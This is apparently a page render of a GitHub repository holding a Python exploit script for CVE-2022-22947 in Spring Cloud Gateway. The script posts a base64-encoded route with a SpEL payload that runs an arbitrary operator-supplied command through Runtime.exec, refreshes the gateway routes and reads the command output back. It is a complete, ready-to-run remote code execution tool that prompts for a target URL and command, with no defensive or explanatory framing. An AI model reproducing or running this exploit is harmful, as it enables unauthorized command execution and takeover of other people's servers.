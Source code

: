 

CVE-2022-22947_Rce_Exp

```python
# https://github.com/Axx8/CVE-2022-22947_Rce_Exp
import requests
import json
import base64
import re

payload1 = '/actuator/gateway/routes/66Sec'
payload2 = '/actuator/gateway/refresh'
payload3 = '/actuator/gateway/routes/66Sec'
headers = {
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Accept-Language': 'en',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Connection': 'close',
    'Content-Type': 'application/json'
}
proxies = {
    'http': 'http://192.168.1.119:8080'
}


data = 'ewogICJpZCI6ICJXZWlhblNlYyIsCiAgImZpbHRlcnMiOiBbewogICAgIm5hbWUiOiAiQWRkUmVzcG9uc2VIZWFkZXIiLAogICAgImFyZ3MiOiB7CiAgICAgICJuYW1lIjogIlJlc3VsdCIsCiAgICAgICJ2YWx1ZSI6ICIje25ldyBTdHJpbmcoVChvcmcuc3ByaW5nZnJhbWV3b3JrLnV0aWwuU3RyZWFtVXRpbHMpLmNvcHlUb0J5dGVBcnJheShUKGphdmEubGFuZy5SdW50aW1lKS5nZXRSdW50aW1lKCkuZXhlYyhuZXcgU3RyaW5nW117XCJDbWRcIn0pLmdldElucHV0U3RyZWFtKCkpKX0iCiAgICB9CiAgfV0sCiAgInVyaSI6ICJodHRwOi8vZXhhbXBsZS5jb20iCn0='

data1 = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '0'
}

def exec():
    requests.post(url+payload1,headers=headers,data=base64.b64decode(data).decode().replace('Cmd',cmd),verify=False,timeout=5)
    requests.post(url+payload2,headers=headers,data=data1,verify=False,timeout=5)
    a = requests.get(url+payload3,headers=headers,verify=False,timeout=5).text
    exec = re.findall(r'Result = [\'"]?([^\'" )]+)', a)
    print(exec)

if __name__ == '__main__':
    url = input("Url:")
    cmd = input("Cmd:")
    exec()
```
